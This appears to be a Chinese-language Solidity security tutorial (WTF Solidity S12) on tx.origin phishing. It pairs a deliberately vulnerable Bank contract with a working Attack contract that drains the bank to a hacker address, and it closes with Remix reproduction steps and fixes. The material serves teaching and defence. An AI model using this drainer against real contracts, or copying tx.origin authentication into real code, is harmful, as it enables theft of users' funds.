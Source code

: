 ```yaml
---
title: S12. tx.origin钓鱼攻击
tags:
  - solidity
  - security
  - tx.origin
---
```


# WTF Solidity 合约安全: S12. tx.origin钓鱼攻击

我最近在重新学 Solidity，巩固一下细节，也写一个“WTF Solidity 合约安全”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

---

这一讲，我们将介绍智能合约的`tx.origin`钓鱼攻击和预防方法。

## `tx.origin`钓鱼攻击

笔者上初中的时候特别喜欢玩游戏，但是项目方为了防止未成年人沉迷，规定只有身份证号显示已满十八岁的玩家才不受防沉迷限制。这该怎么办呢？后来笔者使用家长的身份证号进行年龄验证，并成功绕过了防沉迷系统。这个案例与`tx.origin`钓鱼攻击有着异曲同工之妙。

在`solidity`中，使用`tx.origin`可以获得启动交易的原始地址，它与`msg.sender`十分相似，下面我们用一个例子来区分它们之间不同的地方。

如果用户A调用了B合约，再通过B合约调用了C合约，那么在C合约看来，`msg.sender`就是B合约，而`tx.origin`就是用户A。如果你不了解`call`的机制，可以阅读[WTF Solidity极简教程第22讲：Call](https://github.com/AmazingAng/WTF-Solidity/blob/main/22_Call/readme.md)。

![](./img/S12_1.jpg)

因此如果一个银行合约使用了`tx.origin`做身份认证，那么黑客就有可能先部署一个攻击合约，然后再诱导银行合约的拥有者调用，即使`msg.sender`是攻击合约地址，但`tx.origin`是银行合约拥有者地址，那么转账就有可能成功。

## 漏洞合约例子

### 银行合约

我们先看银行合约，它非常简单，包含一个`owner`状态变量用于记录合约的拥有者，包含一个构造函数和一个`public`函数：

- 构造函数: 在创建合约时给`owner`变量赋值.
- `transfer()`: 该函数会获得两个参数`_to`和`_amount`，先检查`tx.origin == owner`，无误后再给`_to`转账`_amount`数量的ETH。**注意：这个函数有被钓鱼攻击的风险！**

```solidity
contract Bank {
    address public owner;//记录合约的拥有者

    //在创建合约时给 owner 变量赋值
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        //检查消息来源 ！！！ 可能owner会被诱导调用该函数，有钓鱼风险！
        require(tx.origin == owner, "Not owner");
        //转账ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### 攻击合约

然后是攻击合约，它的攻击逻辑非常简单，就是构造出一个`attack()`函数进行钓鱼，将银行合约拥有者的余额转账给黑客。它有`2`个状态变量`hacker`和`bank`，分别用来记录黑客地址和要攻击的银行合约地址。

它包含`2`个函数：

- 构造函数:初始化`bank`合约地址.
- `attack()`：攻击函数，该函数需要银行合约的`owner`地址调用，`owner`调用攻击合约，攻击合约再调用银行合约的`transfer()`函数，确认`tx.origin == owner`后，将银行合约内的余额全部转移到黑客地址中。

```solidity
contract Attack {
    // 受益者地址
    address payable public hacker;
    // Bank合约地址
    Bank bank;

    constructor(Bank _bank) {
        //强制将address类型的_bank转换为Bank类型
        bank = Bank(_bank);
        //将受益者地址赋值为部署者地址
        hacker = payable(msg.sender);
    }

    function attack() public {
        //诱导bank合约的owner调用，于是bank合约内的余额就全部转移到黑客地址中
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## `Remix` 复现

**1.** 先将`value`设置为10ETH，再部署 `Bank` 合约，拥有者地址 `owner` 被初始化为部署合约地址。

![](./img/S12-2.jpg)

**2.** 切换到另一个钱包作为黑客钱包，填入要攻击的银行合约地址，再部署 `Attack` 合约，黑客地址 `hacker` 被初始化为部署合约地址。

![](./img/S12-3.jpg)

**3.** 切换回`owner`地址，此时我们被诱导调用了`Attack`合约的`attack()`函数，可以看到`Bank`合约余额被掏空了，同时黑客地址多了10ETH.

![](./img/S12-4.jpg)

## 预防办法

目前主要有两种办法来预防可能的`tx.origin`钓鱼攻击。

### 1.使用`msg.sender`代替`tx.origin`

`msg.sender`能够获取直接调用当前合约的调用发送者地址，通过对`msg.sender`的检验，就可以避免整个调用过程中混入外部攻击合约对当前合约的调用

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2.检验`tx.origin == msg.sender`

如果一定要使用`tx.origin`，那么可以再检验`tx.origin`是否等于`msg.sender`，这样也可以避免整个调用过程中混入外部攻击合约对当前合约的调用。但是副作用是其他合约将不能调用这个函数。

```solidity
    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        require(tx.origin == msg.sender, "can't call by external contract");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
```

## 总结

这一讲，我们介绍了智能合约中的`tx.origin`钓鱼攻击，目前有两种方法可以预防它：一种是使用`msg.sender`代替`tx.origin`；另一种是同时检验`tx.origin == msg.sender`。推荐使用第一种方法预防，因为后者会拒绝所有来自其他合约的调用。

